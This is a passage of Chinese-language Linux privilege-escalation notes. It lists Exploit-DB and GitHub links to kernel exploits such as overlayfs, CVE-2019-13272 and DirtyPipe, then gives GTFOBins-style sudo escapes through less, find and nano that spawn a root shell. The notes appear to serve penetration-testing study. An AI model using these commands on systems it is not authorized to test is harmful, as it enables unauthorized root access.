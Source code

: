 Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) – 'overlayfs' Local Root Shell

https://www.exploit-db.com/exploits/37292/

Linux Kernel 4.3.3 (Ubuntu 14.04/15.10) – ‘overlayfs’ Local Root Exploit

https://www.exploit-db.com/exploits/39166/

Linux Kernel 4.3.3 – 'overlayfs' Local Privilege Escalation

https://www.exploit-db.com/exploits/39230/

最新的有DirtyPipe和DirtyCred可以了解一下

**CVE-2019-13272**

- https://github.com/oneoy/CVE-2019-13272
- https://github.com/Huandtx/CVE-2019-13272
- https://github.com/icecliffs/Linux-For-Root

**CVE-2017-16995**

- https://github.com/Al1ex/CVE-2017-16995
- https://github.com/Jewel591/Privilege-Escalation

**CVE-2019-14287**

- https://github.com/Twinkeer/CVE

**内核漏洞提权汇总**

- https://github.com/SecWiki/linux-kernel-exploits

**内核漏洞提权参考**

- https://www.secice.cn/post/3574493e
- CVE-2022-0847

### sudo提权

1. 使用`sudo -l`查看可利用的sudo权限工具

2. 在`https://gtfobins.github.io/`搜索对应的工具名称，利用页面中的提示进行提权

例子：

![image-20220825230135566](https://raw.githubusercontent.com/lant34m/pic/main/image-20220825230135566.png)

- `less提权`
  输入`sudo less /etc/profile`
  ![image-20220825230210443](https://raw.githubusercontent.com/lant34m/pic/main/image-20220825230210443.png)
  输入`!/bin/sh`即可提升权限至root
  ![image-20220825230242995](https://raw.githubusercontent.com/lant34m/pic/main/image-20220825230242995.png)
- `find提权`
  输入`sudo find . -exec /bin/sh \; -quit`
  ![image-20220825230348390](https://raw.githubusercontent.com/lant34m/pic/main/image-20220825230348390.png)
- `nano提权`
  - 输入`sudo nano`
    ![image-20220825230454964](https://raw.githubusercontent.com/lant34m/pic/main/image-20220825230454964.png)
    连续键入`ctrl+r`和`ctrl+x`两个组合键
    输入命令`reset; sh 1>&0 2>&0`提权至root
    ![image-20220825230642512](https://raw.githubusercontent.com/lant34m/pic/main/image-20220825230642512.png)
  - 输入`sudo nano -s /bin/sh`
    ![image-20220825230749070](https://raw.githubusercontent.com/lant34m/pic/main/image-20220825230749070.png)
    输入`/bin/sh`，再键入`ctrl+t`组合键
    ![image-20220825230854953](https://raw.githubusercontent.com/lant34m/pic/main/image-20220825230854953.png)
